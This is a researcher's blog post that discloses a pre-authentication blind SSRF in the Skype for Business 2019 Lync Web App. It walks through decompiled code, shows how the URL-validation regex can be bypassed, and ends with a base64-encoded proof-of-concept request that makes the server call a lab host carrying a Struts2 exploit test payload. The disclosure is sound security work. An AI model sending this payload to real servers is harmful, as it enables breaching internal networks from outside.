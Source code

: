 ```yaml
---
layout: post
title:  "Skype for Business Audit Part 2 - SKYPErimeterleak"
date:   2022-09-26 23:00:00 +0200
categories: vulns4free
---
```


In my last [blog post](https://frycos.github.io/vulns4free/2022/09/22/skype-audit-part1.html) we talked about a new *persistence technique* in **Skype for Business 2019 (SfB)** found during my code audit. Now, I give a short code walk-through
about an **Pre-Auth Server-side Request Forgery (SSRF)** vulnerability which could easily lead to an internet perimeter breach.
But let's start from the beginning.


We still have the same setup, i.e. an Active Directory (AD) `CONTOSO.COM` with a SfB installation on a system `SKYPE01`.
But this time, we're looking for a vulnerability instead of a persistence technique for Red Teams.
Since the [MSRC](https://www.microsoft.com/en-us/msrc) rejected my submission for this vulnerability with a "not meeting the bar" argument, I told them to publish a blog post instead.

We look again with `InetMgr.exe` at the Application Pool and URI path configurations.

![InetMgr](/assets/images/skypethings/skype_inetmgr.png)

Since we mentioned the term "internet perimeter breach" above, the focus will again be on the "External Web Site" configurations.
The target we chose was the URI path `/lwa` which stands for **Lync Web App**. The corresponding App Pool is named `LyncExtFeature`.
The file system location of interest can usally be found at `C:\Program Files\Skype for Business Server 2019\Web Components\LWA\Ext`.

In the `Web.config` file the following declaration is made:

```xml
<defaultDocument>
    <files>
    <clear/>
    <add value="LwaClient.aspx"/>
    </files>
</defaultDocument>
```

The ASPX file mentioned is located at `C:\Program Files\Skype for Business Server 2019\Web Components\LWA\Ext\WebPages`
and the first line reads:

```xml
<%@ Page Language="C#" AutoEventWireup="true" CodeBehind="LwaClient.aspx.cs" Inherits="Lync.Client.PreAuth.LwaClient" Async="true" %>
```

Browsing to this ASPX file is indeed possible without further authentication needed as also indicated by the `PreAuth` key word being part of the namespace.

![LWA_ASPX](/assets/images/skypethings/skype_lwaaspx.png)

We attach *dnSpy* to our `w3wp.exe` process with the App Pool `LyncExtFeature` and load all .NET assemblies/modules into the debugger.
Looking into the class `Lync.Client.PreAuth.LwaClient` reveals that it inherits from `System.Web.UI.Page` so we can usually expect several methods like `Page_Init` and/or `Page_Load` being implemented (see any blog on "ASP.NET Page Life Cycle").

But the most interesting implementation is an asynchronous one called `PageLoadInternal()`. Several user-controlled
parameter are easily spotted in the first lines of code *[1], [2]*.

```csharp
...
if (base.Request.QueryString.Count != 0)
{
		this.LwaLocale = HttpUtility.UrlDecode(base.Request.QueryString["reachLocale"]); //[1]
		string joinXml = LwaClient.Base64DecodeString(base.Request.QueryString["xml"]); //[2]
		...
```

If no query parameter `xml` is provided, the following if-statement turns out to be `true` *[3]*.

```csharp
...
if (string.IsNullOrEmpty(joinXml)) //[3]
{
			if (Wpp.tracer.Level >= 5 && (Wpp.tracer.Flags & 1) != 0)
			{
				WPP_2897018b9080d7ca34b73bbf6c519b5b.WPP_p(3, 10, (IntPtr)this.GetHashCode());
			}
			try
			{
				string meetUrl = LwaClient.Base64DecodeString(base.Request.QueryString["meeturl"]); //[4]
			...
```

The query parameter `meeturl` now get evaluated at *[4]* and we're almost there, looking at the SSRF.

```csharp
...
if (this.CmsLWAValidateMeetUrlFlag)
{
					this.ValidateMeetUrl(meetUrl); //[5]
}
HttpWebRequest request = (HttpWebRequest)WebRequest.Create(meetUrl); //[6]
request.Accept = "Application/vnd.microsoft.lync.meeting+xml";
request.UserAgent = "LCS-Server";
using (HttpWebResponse response = (HttpWebResponse)(await request.GetResponseAsync())) //[7]
{
	using (StreamReader reader = new StreamReader(response.GetResponseStream()))
	{
		joinXml = await reader.ReadToEndAsync();
		reader.Close();
	}
	response.Close();
}
...
```

Some kind of *validation* in *[5]* seems to take place. We'll look into this in a minute.
If the validation turns out to be successful, an `HttpWebRequest` object is created *[6]* and fires *[7]*
in an asynchronous manner. If we could inject an arbitrary URL with **full control including query parameters** etc.,
a powerful SSRF would have been born (a *blind* one though). Thanks to the Base64 encoding, one doesn't even
have to take care (a lot) on weird characters etc.

But let's investigate the `ValidateMeetUrl` *[5]* method first.

```csharp
private void ValidateMeetUrl(string meetUrl)
{
		if (Wpp.tracer.Level >= 4 && (Wpp.tracer.Flags & 1) != 0)
		{
			WPP_2897018b9080d7ca34b73bbf6c519b5b.WPP_p(3, 15, (IntPtr)this.GetHashCode());
		}
		string pattern = "(https?:\\/\\/(www\\.)|(www\\.))?.*(\\.\\w{2,4})\\/.*\\/[a-zA-Z0-9]*\\/?$"; //[8]
		bool flag = Regex.IsMatch(meetUrl, pattern);
		if (flag)
		{
			return;
		}
		string pattern2 = "^(https?:\\/\\/(www\\.)|(www\\.))?.*(\\.\\w{2,4})\\/Meet\\/\\?.*\\/?$"; //[9]
		if (!Regex.IsMatch(meetUrl, pattern2))
		...
```

It basically breaks down to defeat the regular expressions *[8]* or *[9]*. Intuitively, I chose the first one at *[8]* (but does it matter? :-P). For this kind of regex testing, there are tons of online [regex testers](https://www.regextester.com/) available to play with expressions.

So it looks like the "idea" of this validation by the code author *could* be based on the following thoughts (I'm just guessing here!). We do not differentiate between optional match groups for this interpretation.

1. Could be a valid domain name starting with `http` or `https` (you're stuck in the `WebRequest` cast indeed)
2. Could contain a `www` prefix
3. Domain could end with an TLD of length between `2` and `4`, e.g. `de, com, army`
4. Last segment could contain an alpha-numeric sequence and we need another slash in there

So things like this should work.

![Regex1](/assets/images/skypethings/skype_regex1.png)

What about IP addresses? Since `www` is optional but constraint *3.* exists: the fourth octet cannot be a single digit.
Alright, this constraint is not too hard. Enough IP addresses left to do something evil.

![Regex2](/assets/images/skypethings/skype_regex2.png)

A bit later, I realized that this could also become optional. But see the difference between `https://10.0.0.1/whatever/iwant` vs. `https://10.0.0.10/whatever/iwant`? Sometimes, your mind is playing tricks on you. :-P

What about queries? Exploiting a third-party system at least should take into account arbitrary query parameters.
Yes, works also fine since most web apps from my experience simply ignore additional undefined query parameters.

![Regex3](/assets/images/skypethings/skype_regex3.png)

Of course, if you already know the Windows Domain name (e.g. obtained from one of the Skype endpoints talking NTLM),
common hostname prefixes like `jira.contoso.com` are also possible. If you need some inspiration for *Exploiting Blind SSRF*, I highly recommend [some](https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/) [resources](https://github.com/assetnote/blind-ssrf-chains) by Assetnote.

After I showed this vulnerability to my teammates [@codewhitesec](https://twitter.com/codewhitesec), a result in discussion with [Markus](https://twitter.com/mwulftange) ended in an even more beautiful regex breaker (of course the previous examples might work for most cases of exploitation cases as well).

![Regex4](/assets/images/skypethings/skype_regex4.png)

With this, we could basically control everything as needed. And since there are tons of vulnerable systems
(especially in intranet corporate networks), such as routers, Jenkins, or lately VMware Workspace ONE Access (exploitable with a single GET request), this *Pre-Auth Blind SSRF* should indeed be seen as an *internet perimeter leak* threat.

Finally, what's missing? Right, **PoC\|\|GTFO**.
Our Skype server `SKYPE01` has the IP address `10.137.0.27` (right). A second machine at `10.137.0.26` (left) sends the SSRF payload `https://skype01.contoso.com/lwa/Webpages/LwaClient.aspx?meeturl=aHR0cDovLzEwLjEzNy4wLjI2Lz9pZD1QT0MlMjV7MTMzNyoxMzM3fSMueHgvLw==` and also provides an HTTP service so we're able to receive HTTP requests and investigate the related log files.

For me it seemed easier to provide a nice screenshot with only two machines such that the attacker and victim machine
happens to be the same at `10.137.0.26` but it doesn't really matter. A well-known Struts2 RCE payload (CVE-2019-0230) was sent
but any payload deliverable with a GET request is exploitable.

![PoC](/assets/images/skypethings/skype_poc.png)
